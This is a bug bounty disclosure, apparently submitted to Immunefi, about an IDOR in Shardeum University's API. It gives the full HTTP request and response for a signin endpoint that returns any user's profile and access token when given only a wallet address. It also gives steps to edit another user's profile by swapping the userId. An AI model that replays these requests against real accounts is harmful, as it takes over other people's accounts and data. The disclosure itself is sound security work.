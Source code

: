 # #35446 \[W\&A-Insight] IDOR Able to change other user information

**Submitted on Sep 22nd 2024 at 21:46:11 UTC by @blocksmith0 for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35446
* **Report Type:** Websites and Applications
* **Report severity:** Insight
* **Target:** https://immunefi.com
* **Impacts:**
  * Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description

## Vulnerability Details

Found an IDOR on \`api.university.shardeum.org\` the IDOR enables any user to change any user informations like name, email address, social media links, project links, description and other information.

To change other user information we need to get that user \`userId\` we can do this by just knowing the user wallet address which is public we can go to the explorer and get wallet addresses of some users and use that wallet address in the following HTTP request to get all the account information of that user that we want to change his/her information this is also an issue of it's own.

Using following HTTP request just change the \`walletAddress\` to the victim address to get all the account information of the victim.

Request:

\`\`\` POST /api/auth/signin HTTP/1.1 Host: api.university.shardeum.org Connection: close Content-Length: 62 sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ Content-Type: application/json sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://165.232.189.24 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://165.232.189.24/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9

{"walletAddress":"0x17daeE6958a71F4854d6359E88013663F439B499"} \`\`\`

Response:

\`\`\` HTTP/1.1 200 OK Server: nginx/1.24.0 (Ubuntu) Date: Sun, 22 Sep 2024 21:12:11 GMT Content-Type: application/json; charset=utf-8 Content-Length: 678 Connection: close X-Powered-By: Express Access-Control-Allow-Origin: \* Access-Control-Allow-Headers: x-access-token, Origin, Content-Type, Accept ETag: W/"2a6-XOQaNiWzJEGieswHDtMx43nPjIg" Vary: Accept-Encoding

{"type":"not-verified","\_id":"66f08643f519db4c16f3ad23","username":"victim","walletAddress":"0x17daeE6958a71F4854d6359E88013663F439B499","email":"victim@gmail.com","isVerified":false,"isBlocked":false,"displayName":"default","portfolio":"https://sample.com/link","shardId":"areer333","designation":"developer","roles":\[{"\_id":"6564d2c72c178bc331526b9e","name":"user"}],"projects":\[],"enrolledCourses":\[],"createdAt":"2024-09-22T21:04:03.306Z","updatedAt":"2024-09-22T21:08:15.099Z","\_\_v":1,"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY2ZjA4NjQzZjUxOWRiNGMxNmYzYWQyMyIsImlhdCI6MTcyNzAzOTUzMSwiZXhwIjoxNzI3MTI1OTMxfQ.S\_aGvf\_YjFIsp8OPmvuODwZfrf-h3XvwriEhyIeKKX8"} \`\`\`

Now copy \`\_id\` this is the victim \`userId\`.

## Proof of Concept

## Proof of Concept

1. First login to your account and go to \`university.shardeum.org/profile/edit\`
2. Change name and click \`Save Changes\`
3. Intercept the request using burp proxy and send it to repeater
4. Now change the \`userId\` to victim \`userId\` that we get from the previous step and click on \`Go\`
5. Now the victim information has been changed login to victim account and check that the information has been changed.

This zero click IDOR meaning zero interaction is required.
